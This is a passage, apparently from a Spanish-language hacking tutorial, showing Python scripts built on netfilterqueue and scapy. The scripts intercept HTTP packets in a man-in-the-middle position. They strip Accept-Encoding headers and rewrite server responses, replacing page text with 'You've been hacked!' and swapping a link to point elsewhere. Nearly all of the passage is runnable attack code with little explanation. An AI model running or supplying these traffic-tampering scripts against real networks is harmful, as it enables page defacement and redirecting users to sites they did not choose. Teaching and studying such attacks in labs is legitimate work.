 ```python
                modified_load = scapy_packet[scapy.Raw].load.replace(b"Welcome to our page", b"You've been hacked!")
                new_packet = set_load(scapy_packet, modified_load)
                packet.set_payload(new_packet.build())
        except:
            pass
    packet.accept()

# Inicializamos la cola de paquetes
queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

### Modificar enlaces de redirección

Finalmente, podemos modificar los enlaces de la página web para redirigir a otros sitios. Por ejemplo, si queremos cambiar el enlace del botón "Test and Demonstration" a otro sitio, lo podemos hacer de la siguiente manera:

#### Código para modificar redirecciones:

```python
#!/usr/bin/python3

import netfilterqueue
import scapy.all as scapy
import re

def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum
    return packet

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        try:
            if scapy_packet[scapy.TCP].dport == 80:
                print(f"\n[+] Solicitud HTTP interceptada\n")
                modified_load = re.sub(b"Accept-Encoding:.*\\r\\n", b"", scapy_packet[scapy.Raw].load)
                new_packet = set_load(scapy_packet, modified_load)
                packet.set_payload(new_packet.build())
            elif scapy_packet[scapy.TCP].sport == 80:
                print(f"\n[+] Respuesta del servidor interceptada\n")
                modified_load = scapy_packet[scapy.Raw].load.replace(b'<a href="https://www.acunetix.com/vulnerability-scanner/">', b'<a href="https://hack4u.io">')
                new_packet = set_load(scapy_packet, modified_load)
                packet.set_payload(new_packet.build())
        except:
            pass
    packet.accept()

queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
